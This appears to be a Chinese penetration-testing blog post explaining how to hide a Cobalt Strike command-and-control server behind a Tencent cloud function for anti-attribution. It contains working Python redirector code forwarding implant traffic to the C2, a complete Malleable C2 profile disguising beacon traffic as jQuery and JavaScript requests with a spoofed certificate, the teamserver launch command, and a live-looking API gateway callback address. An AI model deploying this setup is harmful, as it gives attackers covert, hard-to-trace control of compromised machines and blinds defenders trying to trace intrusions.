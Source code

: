 ```yaml
---
title: 利用云函数隐藏C2服务器
comments: true
date: 2022-06-14 13:41:47
tags: ["渗透测试", "防溯源", "云函数", "C2"]
categories:
- 渗透测试
cover: https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614162832.png
top_img:
description:
---
```


隐藏C2服务器的手法有很多，如：
- 域前置
- CDN
- 第三方代理软件（heroku）
- 云函数

## 配置云函数
这里先介绍云函数了，
云函数的创建参考上一篇文章：http://www.xpshuai.cn/2022/06/13/%E5%88%A9%E7%94%A8%E4%BA%91%E5%87%BD%E6%95%B0%E9%9A%90%E8%97%8FWebshell%E7%9C%9F%E5%AE%9EIP/，

只是代码部分略有不同：
```python
# -*- coding: utf8 -*-
import json,requests,base64
def main_handler(event, context):
    C2='http://<C2服务器地址>' # 这里可以使用 HTTP、HTTPS~下角标~
    path=event['path']
    headers=event['headers']
    print(event)
    if event['httpMethod'] == 'GET' :
        resp=requests.get(C2+path,headers=headers,verify=False) 
    else:
        resp=requests.post(C2+path,data=event['body'],headers=headers,verify=False)
        print(resp.headers)
        print(resp.content)

    response={
        "isBase64Encoded": True,
        "statusCode": resp.status_code,
        "headers": dict(resp.headers),
        "body": str(base64.b64encode(resp.content))[2:-1]
    }
    return response


```


点击API服务名：
![20220614141805](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614141805.png)
点击编辑：
![20220614141944](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614141944.png)

路径修改为`/`，点击下一步：
![20220614142034](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614142034.png)

配置如下，点击完成：
![20220614142122](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614142122.png)



## 配置cs
### 配置CS的profile文件
```bash
set sample_name "kris_abao";

set sleeptime "3000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36";

https-certificate 
{

    set keystore "cobaltStrike.store"; //生成的cs证书名
    set password "123456";    //自己设置的密码

    ## Option 3) Cobalt Strike Self-Signed Certificate
    set C   "US";
    set CN  "jquery.com";
    set O   "jQuery";
    set OU  "Certificate Authority";
    set validity "365";
}

http-get 
{

    set uri "/api/getit";

    client {
        header "Accept" "*/*";
        metadata {
            base64;
            prepend "SESSIONID=";
            header "Cookie";
        }
    }

    server {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Server" "Nodejs";
        output {
            base64;
            print;
        }
    }
}
http-stager 
{  
    set uri_x86 "/vue.min.js";
    set uri_x64 "/bootstrap-2.min.js";
}
http-post {
    set uri "/api/postit";
    client {
        header "Accept" "*/*";
        id {
            base64;
            prepend "JSESSION=";
            header "Cookie";
        }
        output {
            base64;
            print;
        }
    }

    server 
    {
        header "Content-Type" "application/ocsp-response";
        header "content-transfer-encoding" "binary";
        header "Connection" "keep-alive";
        output {
            base64;
            print;
        }
    }
}


```



### 开启cs teamserver
```bash
./teamserver vpsip password c2.profile
```


**Note:**
上线地址 需要去掉`http://`和`:80`
取`service-miuk9icj-1309081727.bj.apigw.tencentcs.com`
![20220614154332](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614154332.png)



### 创建监听
![20220614154545](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614154545.png)

成功上线，可以看到外部IP第一栏是不断变化的，也就是隐藏了我们C2服务器
![20220614162832](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20220614162832.png)


附：
删掉测试机器上的恶意exe：
```bash
# 查找进程
tasklist /svc |findstr XXX.exe
# 根据pid杀进程
taskkill /T /F /PID 9718
# 根据进程名杀进程
 taskkill /f /t /im XXX.exe 
```

## 云函数隐藏C2原理
马er -> 腾讯云函数api -> py函数 -> CS服务端

CS马被执行后，流量直接走向腾讯云的api（也就是这一步达成了隐藏C2服务端的目的，腾讯地址，有腾讯的CDN），然后py函数会根据传入的流量作为中间人对CS服务端进行请求，并获取返回结果后返回请求获取的数据信息（py代码的请求内容和CS服务端加载的profile是相对应的，CS服务端根据py函数传入的数据来获取相关信息）
